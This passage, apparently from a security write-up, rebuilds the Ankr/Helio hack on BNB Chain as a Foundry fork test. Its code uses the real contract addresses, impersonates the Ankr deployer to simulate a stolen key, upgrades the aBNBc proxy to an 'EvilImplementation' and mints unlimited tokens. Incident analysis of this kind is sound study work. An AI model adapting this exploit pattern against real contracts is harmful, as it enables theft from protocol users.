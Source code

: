### Proof of Concept
Now that we understand the Ankr attacker's malicious implementation contract and steps involved in attacking Helio, we can formulate our own proof of concept (PoC) to exploit both protocols using Foundry. We will impersonate the Ankr admin deployer to simulate key compromise, upgrade the aBNBc contract and profit.

We’ll start by selecting an RPC provider with archive access. For this demonstration, it seems only fitting to use the free public RPC aggregator provided by Ankr. Our `foundry.toml` file will look something like this:

```toml
[profile.default]
src = 'src'
out = 'out'
libs = ['lib']

rpc_storage_caching = { chains = ["bsc"], endpoints = "all" }

[rpc_endpoints]
bsc = "https://rpc.ankr.com/bsc"
```

We select the block number `23545400` as our fork block, 1 block before the first hack transaction. This can be achieved by using the following `setUp` function, which also utilizes the forge standard library function `makeAddr` to create labelled addresses for the contracts we will be interacting with:

```solidity
function setUp() public {
    vm.createSelectFork("bsc", 23545400);

    ANKR_EXPLOITER = makeAddr("Ankr Exploiter");
    HELIO_EXPLOITER = makeAddr("Helio Exploiter");
    evilImpl = new EvilImplementation();
}
```

### The Attack
Let’s begin by creating our Exploit test contract. First, it is helpful to define constants for all the relevant contract addresses with which we will be interacting, for example:

```solidity
address public constant ANKR_DEPLOYER = 0x2Ffc59d32A524611Bb891cab759112A51f9e33C0;
    address public constant ANKR_PROXY_ADMIN = 0x1bD5dF997c8612652886723406131F582ab93DEf;
    address public constant ABNBC_PROXY = 0xE85aFCcDaFBE7F2B096f268e31ccE3da8dA2990A;
```

We deploy the malicious implementation contract by including the `setUp` function snippet above and then call `ProxyAdmin::upgrade`, passing the target proxy address and address of the malicious implementation contract as arguments. This will upgrade the proxy to the malicious implementation contract which will allow us to mint an unlimited number of aBNBc tokens.

```solidity
function testExploit() public {
    // simulate compromised Ankr admin deployer private key
    vm.startPrank(ANKR_DEPLOYER);

    // upgrade to evil implementation
    ProxyAdmin(ANKR_PROXY_ADMIN).upgrade(ABNBC_PROXY, address(evilImpl));

    // mint tokens to the exploiter
    changePrank(ANKR_DEPLOYER);
    EvilImplementation(ABNBC_PROXY).evilMint(ANKR_EXPLOITER, EXPLOIT_AMOUNT);
}
```

